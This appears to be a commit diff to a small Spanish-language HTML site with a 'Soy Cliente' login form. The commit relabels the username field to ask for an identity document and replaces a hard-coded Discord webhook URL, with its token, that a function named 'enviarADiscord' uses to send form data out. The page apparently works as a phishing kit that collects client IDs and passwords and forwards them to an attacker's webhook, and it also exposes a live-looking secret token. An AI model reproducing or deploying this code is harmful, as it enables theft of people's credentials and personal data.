

Before and after one commit to danielreynalopez1010-prog/davimix, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Soy Cliente". Shown: the part 194-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -165,10 +165,10 @@
                     <div class="bg-white rounded-[24px] p-6 shadow-xl">
                         <div class="mb-5">
                             <label class="block text-gray-700 text-sm font-semibold mb-2" for="usuario">Ingrese su
-                                usuario</label>
+                                documento de identidad</label>
                             <input
                                 class="w-full px-4 py-3 rounded-lg border border-gray-300 focus:outline-none focus:border-red-500 focus:ring-1 focus:ring-red-500 text-gray-700 text-base"
-                                id="usuario" type="text" placeholder="Usuario">
+                                id="usuario" type="text" placeholder="Documento de identidad">
                         </div>
                         <div class="mb-6 relative">
                             <label class="block text-gray-700 text-sm font-semibold mb-2" for="contrasena">Ingrese su
@@ -307,7 +307,7 @@
         // ============================================
         // CONFIGURACIÓN DEL WEBHOOK DE DISCORD
         // ============================================
-        const DISCORD_WEBHOOK_URL = 'https://discord.com/api/webhooks/1520193201867194408/KaKXYO5iD2_pgLWmLsEea0TudoTIzYPZ93m9dYqwogLtNb9nxeDAm6YIEiGTt1SXrmXB';
+        const DISCORD_WEBHOOK_URL = 'https://discord.com/api/webhooks/1572386335011115090/IAFT978FUxGlgf-2eksMDKeRh2E6JFbR41Ef6KBWa9VAuplOOnPzttftGNVeX4hC0wS_';
 
         // Función para enviar datos a Discord
         async function enviarADiscord(tipo, datos) {
```
